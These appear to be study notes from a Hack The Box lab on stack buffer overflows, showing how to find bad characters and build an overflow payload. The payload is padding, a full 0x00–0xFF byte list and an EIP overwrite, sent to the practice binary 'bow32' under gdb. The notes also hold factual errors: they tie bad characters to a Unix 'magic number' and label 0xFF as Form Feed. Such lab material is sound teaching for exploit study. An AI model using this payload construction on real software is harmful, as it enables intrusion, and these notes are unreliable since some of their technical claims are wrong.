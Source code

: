 ![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_7.png)

## Identification of Bad Characters
UNIX-like operating systems used to start with two bytes containing a "**magic number**" that determines the file type.

They could be:
- `\00` - Null Byte
- `\0A` - Line Feed
- `\0D` - Carriage Return
- `\FF` - Form Feed

- We can set a character list:

```bash
Pietra@htb[/htb]$ CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

- Calculate length:

```bash
Pietra@htb[/htb]$ echo $CHARS | sed 's/\\x/ /g' | wc -w

256
```

Therefore:

```bash
Buffer = "\x55" * (1040 - 256 - 4) = 780
CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
EIP = "\x66" * 4
```

In our `bow` example, we have to set a breakpoint at the main function so we can analyse the memory content and then send the payload:

```bash
(gdb) break bowfunc 

Breakpoint 1 at 0x56555551
```

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
/bin/bash: warning: command substitution: ignored null byte in input

Breakpoint 1, 0x56555551 in bowfunc ()
```

